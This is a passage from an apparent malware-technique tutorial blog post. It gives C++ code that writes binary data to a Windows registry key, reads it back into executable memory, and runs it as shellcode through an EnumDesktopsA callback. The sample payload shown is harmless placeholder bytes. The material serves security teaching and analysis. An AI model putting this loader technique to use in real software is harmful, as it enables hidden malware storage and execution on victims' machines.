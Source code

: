 Then, retrieve shellcode and execute via [EnumDesktopsA](/tutorial/2022/06/27/malware-injection-20.html):       

```cpp
void registryGetData() {
  HKEY hkey;
  DWORD size = 0;
  const char* secret = "Software\\meowApp";

  LSTATUS res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)secret, 0, KEY_READ, &hkey);
  printf(res != ERROR_SUCCESS ? "failed to open reg key :(\n" : "successfully open reg key:)\n");

  res = RegQueryValueEx(hkey, (LPCSTR)"secretMeow", nullptr, nullptr, nullptr, &size);
  printf(res != ERROR_SUCCESS ? "failed to query data size :(\n" : "successfully get binary data size:)\n");

  // allocate memory for the data
  LPVOID data = VirtualAlloc(NULL, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  res = RegQueryValueEx(hkey, (LPCSTR)"secretMeow", nullptr, nullptr, static_cast<LPBYTE>(data), &size);
  printf(res != ERROR_SUCCESS ? "failed to query data :(\n" : "successfully get binary data:)\n");

  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)data, (LPARAM)NULL);

  // clean up
  VirtualFree(data, 0, MEM_RELEASE);
  RegCloseKey(hkey);
}
```

So, full source code for our second example is:    

```cpp
/*
 * hack.cpp - store binary data in registry. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/05/22/malware-tricks-29.html
*/
#include <windows.h>
#include <stdio.h>
#include <iostream>

void registryStore() {
  HKEY hkey;
  BYTE data[] = {0x6d, 0x65, 0x6f, 0x77, 0x6d, 0x65, 0x6f, 0x77};

  DWORD d;
  const char* secret = "Software\\meowApp";

  LSTATUS res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR) secret, 0, NULL, 0, KEY_WRITE, NULL, &hkey, &d);
  printf (res != ERROR_SUCCESS ? "failed to create reg key :(\n" : "successfully create key :)\n");

  res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) secret, 0, KEY_WRITE, &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)"secretMeow", 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : "successfully set registry value :)\n");

  RegCloseKey(hkey);
}

```